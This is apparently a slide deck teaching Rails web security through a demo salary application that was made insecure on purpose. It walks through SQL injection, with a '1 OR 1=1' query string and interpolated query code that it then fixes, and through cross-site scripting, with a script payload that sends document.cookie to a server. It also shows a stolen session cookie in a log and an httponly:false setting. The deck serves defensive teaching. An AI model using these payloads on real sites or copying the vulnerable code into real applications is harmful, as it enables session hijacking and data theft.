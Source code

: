 !SLIDE 
#Web Security With Rails#

!SLIDE bullets incremental

* Frameworks are neither secure or insecure
* Depends on the developers
* And how these developers use/implement the frameworks

!SLIDE bullets incremental

* Rails follows conventions
* By default Rails is secure in many ways
* Let's see a use case

!SLIDE bullets incremental
#Disclaimer#

* In order to test some insecurities I had to fix it and make it insecure

!SLIDE bullets incremental
# The Test Application #

* Some guy is going nuts, he can not handle his company salaries and raises process.
* He contacts you and ask you to build a quite simple application

!SLIDE bullets incremental
# And you build it! #

* Awesome, the application works. Everyone is happy. That's it right?
 
!SLIDE bullets incremental
# Day 1 - Injection #

* Early morning call from your customer.
* Some employees are complainning about others salary, how do they know how much others are gaining?

!SLIDE small incremental bullets
#Did some research#

- You found that that a user used an Injection attack. He modified the query string adding and update statement.
- Query: javascript:alert(escape('1 OR 1=1'))
- http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=12
- http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=1+OR+1%3D1

!SLIDE small incremental bullets
#Two basic errors#

* Wrong session and roles handling
* SQL Injection

!SLIDE bullets incremental small
#The fix#

* Previously had:
 * @raises = Raise.where(["user_id = #{current_user.id} and request_amount = #{params[:search_raise]}"])
* Now he have:
 * @raises = Raise.where(["user_id = ? and request_amount = ?", current_user, params[:search_raise]])
* We could also create a constraint for that route
 * get '/search/:query', :to => 'raises#index', :as => 'search', :constraints => {:options => /\d{5}/}

!SLIDE bullets incremental
#Sanitize input#

* Use whitelist validation, black lists are never complete
* Rails adds XSS protection by default in Rails3
* [SafeBuffers and Rails3.0](http://yehudakatz.com/2010/02/01/safebuffers-and-rails-3-0/)

!SLIDE bullets incremental
#RoR built-in filter for special SQL characters#

* Default scape for ’ , " , NULL character and line breaks
* Using Model.find(id) or Model.find_by_some thing(something)

!SLIDE bullets incremental
#RoR built-in filter...#

* In SQL Fragments, specially in conditions fragments it has to be applied manually
 * (:conditions => "...")
 * connection.execute() 
 * Model.find_by_sql() methods

!SLIDE bullets incremental

* Prefer:
 * Model.find(:first, :conditions => ["login = ? AND password = ?", entered_user_name, entered_password])
 * Model.find(:first, :conditions => {:login => entered_user_name, :password => entered_password})
 * Automatically sanitize tainted variables

!SLIDE bullets incremental
#Day 2 - Cross-Site Scripting(XSS)#

* Early morning call from your customer. Seems like somebody has been using his admin account.
* He lost control of the admin account.

!SLIDE bullets incremental
#server log#

* GET /_salary-manager_session=BAh7CCIQX2NzcmZfdG9rZW4iMWc4RTNDRERCZTVWSGxoV0lEWU5DeU93dEt1UForZjVBcm9wM2p0L3dEczg9Ig9zZXNzaW9uX2lkIiU4ZjRkNmZiMTQ2ZjdmMDA0YzU2NzVjODdlMGNhNDQwYSIZd2FyZGVuLnVzZXIudXNlci5rZXlbByIJVXNlcmkG--1cbc024cd3c3ba75d9df982f4615596dbc2bb2cf;%20a=1

!SLIDE bullets incremental smaller
#Harming script#

* &lt;script&gt;document.write('&lt;img src="http://localhost:80/' + document.cookie + '" &gt;')&lt;/script&gt;

!SLIDE bullets incremental smaller
#HTTPOnly#

* Rails3 enables HttpPOnly on cookies by default
* config/initializers/session_store.rb
* SalaryManager::Application.config.session_store :cookie_store, :key => '_acl_test_session', :httponly => false

!SLIDE bullets incremental smaller
#Sanitize input#

* Use whitelist validation, black lists are never complete
* validates_format_of :site, :with => /(^$)|(^(http|https):\/\/[a-z0-9]+([\-\.]{1}[a-z0-9]+)*\.[a-z]{2,5}(([0-9]{1,5})?\/.*)?$)/ix

!SLIDE bullets incremental
#Day 3 - Broken Authentication and Session Management#
